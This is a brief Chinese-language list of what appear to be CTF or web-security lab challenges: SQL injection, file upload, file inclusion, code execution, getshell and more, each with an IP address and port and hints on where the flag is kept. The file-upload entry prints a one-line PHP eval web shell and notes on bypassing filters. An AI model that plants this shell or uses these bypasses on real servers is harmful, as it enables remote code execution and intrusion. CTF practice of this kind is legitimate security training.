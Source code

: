 http://123.60.47.130:11201/index.php?m=order&o=upload





1、sql注入  	地址：http://150.158.88.26:10003/		key在数据库中

双写，过滤空格，过滤注释符

2、文件上传    	地址：http://150.158.88.26:10005/index.php	key在网站根目录上一层

这个代替<script language="pHp">@eval($_POST['sb'])</script>

用这个替代过滤双写也可以



3、文件包含		地址：http://150.158.88.26:10004/
4、代码执行		地址：http://150.158.88.26:10006/		key在网站根目录的/start/key4.php中
5、伪造		地址：http://150.158.88.26:10001/
6、登录后台		地址：http://150.158.88.26:10007/		你可能需要一台vps主机
7、getshell	地址：http://150.158.88.26:10008/
8、曲奇饼干		地址：http://150.158.88.26:10009/		flag在数据库中

